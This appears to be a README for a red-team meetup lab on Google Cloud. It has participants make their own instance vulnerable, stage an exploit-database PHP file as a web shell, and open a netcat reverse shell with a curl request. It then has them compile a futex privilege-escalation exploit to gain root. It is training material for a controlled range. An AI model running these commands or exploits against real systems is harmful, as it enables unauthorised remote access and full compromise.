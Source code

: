 # Launch Meetup and Hack Night

Refer to [Meetup page](https://www.meetup.com/redteamproject/events/259624820/) for details.

## Artifacts

* [Qwiklabs site](https://ce.qwiklabs.com/focuses/12629) (yes, the name doesn't make sense; I'm reusing another workshop)
* [Setup script](setup.sh), launch from Cloud Shell
* Blue Ansible playbook
* Red Ansible playbook

## Instructions

1. Select your qwiklabs project from the dropdown menu in the top blue bar, i.e., ```qwiklabs-gcp-fa603bc97e11059a```
2. Start the Cloud Shell
3. Clone this repo

```
git clone https://github.com/redteam-project/meetup.git
cd meetup/20190321
```

4. Run the setup script `./setup.sh`
5. SSH to the blue instance `gcloud compute ssh blue-1 --zone us-east4-a`
6. Update and install packages

```
sudo su -
yum update -y
yum install -y git ansible python-pip
```

7. Clone the `meetup`, `cyber-range-target`, and `exploit-curation` repos

```
git clone https://github.com/redteam-project/meetup
git clone https://github.com/redteam-project/cyber-range-target
git clone https://github.com/redteam-project/exploit-curation
```

8. Make this instance vulnerable to Shellshock and libfutex

```
ansible-playbook meetup/20190321/blue.yml
```

9. Wait for the instance to reboot, then re-log in

```
gcloud compute ssh blue-1 --zone us-east4-a
```

10. Now scan for exploitable vulnerabilities with `lem`

```
sudo su -
virtualenv venv
source venv/bin/activate
pip install lem
lem host assess --curation exploit-curation --kind stride --score 090000
lem exploit copy --id 35146 --source exploit-database --destination /var/www/html --curation exploit-curation
mv /var/www/html/exploit-database-35146.txt /var/www/html/index.php
```

11. Our remote code execution vulnerability is now ready to exploit. Now start two new Cloud Shell instances and ssh to red-1 from both.

```
gcloud compute ssh red-1 --zone us-east4-a
```

12. In the first `red-1` shell, install Netcat and start a listener on port 4444.

```
yum install -y nmap-ncat
nc -nlv 4444
```

13. In the second `red-1` shell, exploit the Shellshock vulnerability we staged in step 10. Replace the IP addresses with your blue-1 and red-1 IPs, respectively.

```
curl -X GET 'http://10.150.0.6/index.php?cmd=nc%20-nv%2010.150.0.7%204444%20-e%20/bin/bash'
```

14. Now in the first `red-1` shell, you should have a reverse shell to `blue-1`. Use this Python trick to get a tty and invoke bash.

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

15. Create a virtualenv, install lem, and look for a privilege escalation vulnerability.

```
cd /tmp
virtualenv venv
source venv/bin/activate
pip install lem
git clone https://github.com/redteam-project/exploit-curation
lem host assess --curation exploit-curation --kind stride --score 000009
```

Note that there is currently a [bug](https://github.com/redteam-project/lem/issues/5) in lem that prevents the exploit that maps to CVE-2014-3153 from returning, but for purposes of this lab we know that it maps to EDBID 35370.

16. Stage the exploit and pop root.

```
lem exploit copy --curation /tmp/exploit-curation --source exploit-database --id 35370 --destination /tmp/
mv exploit-database-35370.txt exploit.c
gcc -lpthread exploit.c -o exploit
./exploit
id -a
```
